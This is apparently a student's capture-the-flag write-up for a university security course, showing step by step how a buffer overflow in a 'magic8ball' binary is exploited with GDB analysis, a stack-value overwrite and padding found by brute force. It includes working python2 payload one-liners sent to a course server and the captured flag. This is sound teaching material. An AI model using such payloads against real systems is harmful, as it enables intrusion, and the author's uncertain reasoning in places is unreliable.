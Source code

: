 # buffer overflow magic8ball

First, use Binary Ninja to identify vulnerabilities. We can see the "vuln" function and "win" function. Our goal is to exploit "vuln" to reach "win." Let's break this down into three steps.


##### step1 How to create a buffer overflow, and how many bytes are required for the overflow?
I initially attempted to use GDB to determine this. It seems that the buffer size is at -0x2c(%ebp), which means it is 44bytes above the %ebp.

 

   0x0804871a <+130>:    lea    -0x2c(%ebp),%eax

   0x0804871d <+133>:    push   %eax

   0x0804871e <+134>:    call   0x8048450 <gets@plt>
s
 

Given that "fortune1" is pushed onto the stack frame before, it takes up 12 bytes above %ebp. Therefore, the "buf" should be 32 bytes. Please correct me if I am mistaken.

 

   0x080486d3 <+59>:    mov    $0x804a040,%eax

   0x080486d9 <+65>:    mov    (%eax),%eax

   0x080486db <+67>:    mov    %eax,-0xc(%ebp)

   0x080486de <+70>:    sub    $0x8,%esp

   0x080486e1 <+73>:    push   -0xc(%ebp)

 

 

#### step2 How to ensure that "fortune1" remains equal to "fortune"?
first lets try to check if we get buffer overflowed!

python2 -c 'print "A"*31' |./magic8ball

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

zzzzzzzzz

z5441928@vx17:~/6841/bufferflow$ python2 -c 'print "A"*32' |./magic8ball

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

the sands of time have changed!!

 

then I initially tried outputting "4031186800," but it didn't work: 

 

python2 -c 'print "A"*32' | nc comp6841.quoccabank.com 5003

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

the sands of time have changed!!

 

$ python2 -c 'print "A"*31+"4031186800"' |./magic8ball

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

the sands of time have changed!!

 

also tried the address of fortune instead of the value, still not work 



 

 

So, I attempted to debug and found the address to be 0xf0470770, which in decimal is 4033411360. However, I'm not sure of the relationship between 4033411360 and the output from fortune 4031186800  (todo: I will investigate this in the next tutorial.)

I add two breakpoints at the gets the address and the next instruction.

 



 

and run the test which is "A"*32  or "A" * 33 to check which value be changed, then I found the exactly value is 0xf0470770.

 



 

milestone: finally skipped canary!!!!!
python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" ' |./magic8ball

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

zzzzzzzzz

#### step3 How to return to the "win" address?
At first, I tried simply adding the "win" address which is 080485e6

 

objdump -d magic8ball | grep win

080485e6 <win>:

804863c:    75 19                    jne    8048657 <win+0x71>

8048655:    eb 3c                    jmp    8048693 <win+0xad>

 

 

and added into our payload but still not returned to the win fun.

 

python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" +  "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

zzzzzzzzz

 

It seemed that some bytes needed to be added between the canary and the return address in "vuln." So, I decided to try a brute-force approach to determine the number of bytes required. It turned out that 12 bytes were needed to successfully reach the "win" address.

 

 

python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" + "B"*12 + "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

zzzzzzzzz

Ive changed your fortune.

Now your fortune is to go to jail.

COMP6841{SOMEWHAT_OF_A_BIRD_WATCHER}

 

 

 

